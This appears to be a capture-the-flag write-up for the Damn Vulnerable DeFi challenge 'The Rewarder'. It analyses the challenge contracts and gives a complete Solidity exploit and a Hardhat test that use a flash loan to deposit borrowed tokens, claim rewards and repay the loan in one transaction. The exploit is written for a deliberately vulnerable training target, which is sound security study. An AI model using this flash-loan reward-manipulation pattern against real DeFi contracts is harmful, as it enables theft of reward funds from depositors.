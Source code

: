 # The Rewarder

## Analysis
Need to understand the relationship between the tokens and the pools. 

`FlashLoanerPool` allows flashloaning of the `DamnValuableToken` but to smart contracts not users
`AccountingToken` is pegged to the `DamnValuableToken`
`TheRewarderPool` rewards any depositor every 5 days proportional to their deposits. It accepts `DamnValuableToken`
`RewardToken` This is the token used to reward depositors.

## Problem
The flash loan tokens can be used to claim rewards

## Exploit
```.sol
// ExploitTheRewarder.sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../the-rewarder/FlashLoanerPool.sol";
import "../the-rewarder/TheRewarderPool.sol";
import "../the-rewarder/RewardToken.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "../DamnValuableToken.sol";


contract ExploitTheRewarder {
    using Address for address payable;

    // Receiver needs to know the pool it is receiving from
    FlashLoanerPool private immutable pool;
    DamnValuableToken private immutable dvt;
    TheRewarderPool private immutable rewarder;
    RewardToken private immutable rewardtoken;

    // attacker
    address private immutable owner;

    constructor(address payable dvtAddress,
                address payable poolAddress,
                address payable rewarderAddress,
                address payable reward) {
        pool = FlashLoanerPool(poolAddress);
        dvt = DamnValuableToken(dvtAddress);
        rewarder = TheRewarderPool(rewarderAddress);
        rewardtoken = RewardToken(reward);
        owner = msg.sender;
    }

    function exploit() public payable {

        require(msg.sender == owner);

        // interact with the pool, calling the flashLoan will cause
        // the receiveFlashloan routine to be invoked
        pool.flashLoan(1000000 ether);

    }

    function receiveFlashLoan(uint256 amount) public payable {
        // make a deposit of the received funds to trigger receiving of rewards token
        dvt.approve(address(rewarder), amount);
        rewarder.deposit(amount);
        // withdraw the tokens from rewards
        rewarder.withdraw(amount);
        // and return it to the pool
        dvt.transfer(address(pool), amount);       
        uint256 reward_amount = rewardtoken.balanceOf(address(this));
        // transfer the received rewards to attacker EOA from attacker contract
        rewardtoken.transfer(owner, reward_amount);
    }
}
```

```.js
...
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const ExploitTheRewarderFactory = await ethers.getContractFactory("ExploitTheRewarder",
         attacker);
        const ExploitTheRewarder = await ExploitTheRewarderFactory.deploy(
            this.liquidityToken.address,
            this.flashLoanPool.address,
            this.rewarderPool.address,
            this.rewardToken.address);

        // wait 5 days so that contributing will trigger rewards
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 day
        
        // connect to the exploit contract and trigger the exploit
        ExploitTheRewarder.connect(attacker).exploit();

    });
...
```

## Explanation
1. Borrow all the DVT tokens from the flashpool using a smartcontract owned by attacke
2. Deposit them and receive rewards to the attacker smartcontract
3. Since the objective of the task is to claim rewards for the attacker, transfer the received rewards from the attacker smart contract
4. Withdraw the deposited DVT tokens and return them to the flashpool.
